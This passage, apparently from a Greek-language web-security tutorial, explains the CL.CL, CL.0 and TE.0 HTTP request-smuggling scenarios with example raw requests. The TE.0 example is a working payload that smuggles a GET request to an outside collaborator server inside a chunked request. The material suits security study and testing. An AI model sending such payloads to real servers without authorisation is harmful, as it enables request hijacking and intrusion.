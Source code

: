 #### **CL.CL Σενάριο (Content-Length χρησιμοποιείται και από τους Front-End και Back-End)**

* Και οι δύο servers επεξεργάζονται το request αποκλειστικά με βάση την κεφαλίδα `Content-Length`.
* Αυτό το σενάριο συνήθως δεν οδηγεί σε smuggling, καθώς υπάρχει ευθυγράμμιση στον τρόπο που και οι δύο servers ερμηνεύουν το μήκος του request.
*   **Παράδειγμα:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Normal Request
```

#### **CL.0 Σενάριο**

* Αναφέρεται σε σενάρια όπου η κεφαλίδα `Content-Length` είναι παρούσα και έχει τιμή διαφορετική από το μηδέν, υποδεικνύοντας ότι το σώμα του request έχει περιεχόμενο. Ο back-end αγνοεί την κεφαλίδα `Content-Length` (η οποία θεωρείται 0), αλλά ο front-end την αναλύει.
* Είναι κρίσιμο στην κατανόηση και την κατασκευή επιθέσεων smuggling, καθώς επηρεάζει το πώς οι servers καθορίζουν το τέλος ενός request.
*   **Παράδειγμα:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Non-Empty Body
```

#### TE.0 Σενάριο

* Όπως το προηγούμενο αλλά χρησιμοποιώντας TE
* Τεχνική [αναφέρθηκε εδώ](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/)
* **Παράδειγμα**:
```
OPTIONS / HTTP/1.1
Host: {HOST}
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Transfer-Encoding: chunked
Connection: keep-alive

50
GET <http://our-collaborator-server/> HTTP/1.1
x: X
0
EMPTY_LINE_HERE
EMPTY_LINE_HERE
```
#### Σπάζοντας τον διακομιστή ιστού
